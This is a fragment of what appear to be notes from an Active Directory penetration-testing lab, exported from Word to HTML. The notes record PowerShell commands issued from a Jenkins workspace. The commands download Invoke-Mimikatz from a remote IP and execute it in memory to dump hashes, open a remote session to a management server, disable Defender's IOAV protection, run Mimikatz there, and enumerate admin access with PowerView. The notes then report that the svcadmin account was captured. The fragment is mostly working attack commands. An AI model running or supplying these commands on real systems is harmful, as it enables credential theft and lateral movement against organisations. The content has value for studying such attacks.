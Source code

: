 <p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>PS
C:\Program Files (x<span class=GramE>86)\Jenkins\workspace\project0</span>&gt; <span
class=SpellE>iex</span> (<span class=SpellE>iwr</span> <a
href="http://172.16.100.157/Invoke-Mimikatz.ps1">http://172.16.100.157/Invoke-Mimikatz.ps1</a>
-<span class=SpellE>UseBasicParsing</span>)<span style='mso-spacerun:yes'> 
</span>--&gt; dump hashes <o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>PS
C:\Program Files (x<span class=GramE>86)\Jenkins\workspace\project0</span>&gt;
$sess = New-<span class=SpellE>PSSession</span> -<span class=SpellE>ComputerName</span>
<span class=SpellE>dcorp-mgmt.dollarcorp.moneycorp.local</span><span
style='mso-spacerun:yes'>   </span>--&gt; create session for execute your
payload in remote machine before must be disable anti-virus (because anti-virus
will block in memory for execution)<o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>&nbsp;<o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>PS
C:\Program Files (x<span class=GramE>86)\Jenkins\workspace\project0</span>&gt;
Invoke-command -<span class=SpellE>ScriptBlock</span>{Set-<span class=SpellE>MpPreference</span>
-<span class=SpellE>DisableIOAVProtection</span> $true} -Session $sess<o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>&nbsp;<o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>PS
C:\Program Files (x<span class=GramE>86)\Jenkins\workspace\project0</span>&gt;
Invoke-command -<span class=SpellE>ScriptBlock</span> ${<span class=SpellE>function:Invoke-Mimikatz</span>}
-Session $sess<o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>&nbsp;<o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>Now we have
got <span class=SpellE><span class=GramE><b>svcadmin</b></span></span><span
class=GramE><span style='mso-spacerun:yes'>  </span>account</span>. <o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>&nbsp;<o:p></o:p></span></p>

<p class=MsoNormal><span style='mso-no-proof:yes'><![if !vml]><img border=0 width=1138 height=452
src="test_files/image033.jpg" v:shapes="Picture_x0020_84"><![endif]></span><o:p></o:p></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>&nbsp;<o:p></o:p></span></p>

<p class=MsoNormal><span style='mso-no-proof:yes'><![if !vml]><img border=0 width=979 height=312
src="test_files/image035.jpg" v:shapes="Picture_x0020_83"><![endif]></span><o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>PS
C:\AD\Tools<span class=GramE>&gt; .</span> .\PowerView.ps1<o:p></o:p></span></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>PS
C:\AD\Tools&gt; Find-<span class=SpellE>LocalAdminAccess</span><o:p></o:p></span></p>
